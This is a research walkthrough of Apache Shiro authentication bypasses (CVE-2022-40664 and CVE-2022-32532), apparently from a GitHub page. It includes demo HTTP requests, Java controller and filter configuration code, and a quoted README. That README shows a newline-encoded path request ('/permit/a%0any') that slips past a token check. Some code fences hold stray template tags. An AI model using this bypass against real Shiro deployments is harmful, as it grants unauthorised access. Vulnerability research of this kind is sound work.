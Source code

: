 # CVE-2022-40664 research walkthrough

> Apache Shiro before 1.10.0, Authentication Bypass Vulnerability in Shiro when forwarding or including via RequestDispatcher.

[![CVE-2022-40664 research walkthrough](https://image.yjs2635.xyz/images/2022/10/25/CVE-2022-40664-Research-Walkthrough2x.md.png)](https://youtu.be/mQrGYHKD8pk)

## walkthrough[^1]

```http request
GET /admin/auth_pass HTTP/1.1
```

```http request
GET /admin/auth HTTP/1.1
```

```http request
GET /admin/auth HTTP/1.1
Token: 4ra1n
```

## exchange redirect from forward ?[^3]

```java
@RequestMapping("/admin/{value}")
public String CVE_2022_40664_bypass(@PathVariable String value, HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
System.out.println("=========== /admin" +((HttpServletRequest)request).getRequestURI()+ "/ ===========");
//        request.getRequestDispatcher("/admin/auth").forward(request, response);
//        return "forward:"+((HttpServletRequest)request).getRequestURI();
response.sendRedirect("/admin/auth");
return ("Redirect:/admin/auth");
}
{% endhighlight %}


forward[^4]
```

```
request.getRequestDispatcher("/admin/auth").forward(request, response);
```

## shiro 1.10.0

Define Bean[^2]

[SecurityManager[^5]](https://github.com/Bin4xin/bigger-than-bigger/blob/master/CoVV/ApacheShiro/CVE-2022-40664/src/main/java/com/example/shirodemo/ShiroConfig.java#L21){:target="_blank"}

```java
@Bean
public MyShiroFilterFactoryBean filterRegBean(SecurityManager securityManager) throws Exception {
// CVE-2022-40664
// fixed conf
ShiroFilterConfiguration conf = new ShiroFilterConfiguration();
conf.setFilterOncePerRequest(false);

    ShiroFilterFactoryBean shiroFilterFactoryBean = new ShiroFilterFactoryBean();
    shiroFilterFactoryBean.setSecurityManager(securityManager);
    shiroFilterFactoryBean.setShiroFilterConfiguration(conf);
    AbstractShiroFilter filter = shiroFilterFactoryBean.getObject();

    MyShiroFilterFactoryBean reg = new MyShiroFilterFactoryBean();
    reg.setFilter(filter);
    reg.addUrlPattern("/*");
    reg.setName("shiroFilter");
    reg.setSecurityManager(securityManager);
    reg.setDispatcherTypes(EnumSet.allOf(DispatcherType.class));
    //fixed conf end.
    return reg;
{% endhighlight %}
```

Do not work.

## reference

[^1]: [Lay0us1/CVE-2022-32532](https://github.com/Lay0us1/CVE-2022-32532){:target="_blank"}
[^2]: [defining a bean named 'shiroFilterFactoryBean'](https://blog.csdn.net/hanzl1/article/details/104228376){:target="_blank"}
[^3]: [CVE-2022-40664](https://juejin.cn/post/7154702383720136718#heading-0){:target="_blank"}
[^4]: [Shiro 1.7和1.10对于forward请求的处理](https://blog.csdn.net/xyjy11/article/details/127324055){:target="_blank"}
[^5]: [SpringBoot整合shiro-spring-boot-web-starter](https://blog.csdn.net/liu320yj/article/details/109090797){:target="_blank"}
[^6]: [[ANNOUNCE][CVE-2022-32532] Apache Shiro 1.9.1 released](https://lists.apache.org/thread/y8260dw8vbm99oq7zv6y3mzn5ovk90xh){:target="_blank"}


# [Lay0us1/CVE-2022-32532](https://github.com/Lay0us1/CVE-2022-32532)

## about

This is a demo project, which only shows one of the conditions for exploiting this vulnerability (CVE-2022-32532). 

In fact, there are more ways to exploit it, as long as developers use `RegExPatternMatcher`, there will be a possible bypass vulnerability.

## introduce

Token request header verification is required under the current configuration, otherwise you do not have permission to access the interface under `/permit`

This request can succeed
```http request
GET /permit/any HTTP/1.1
Token: 4ra1n
```

Access is not allowed when there is no token request header
```http request
GET /permit/any HTTP/1.1
```

It can be bypassed in a simple way in special but common configurations
```http request
GET /permit/a%0any HTTP/1.1
```

## reference

https://lists.apache.org/thread/y8260dw8vbm99oq7zv6y3mzn5ovk90xh

This vulnerability is similar to Spring-Security [CVE-2022-22978](https://tanzu.vmware.com/security/cve-2022-22978)

Thanks to [bdemers](https://github.com/bdemers) (Apache Shiro PMC) and [chybeta](https://github.com/chybeta) (Security Researcher)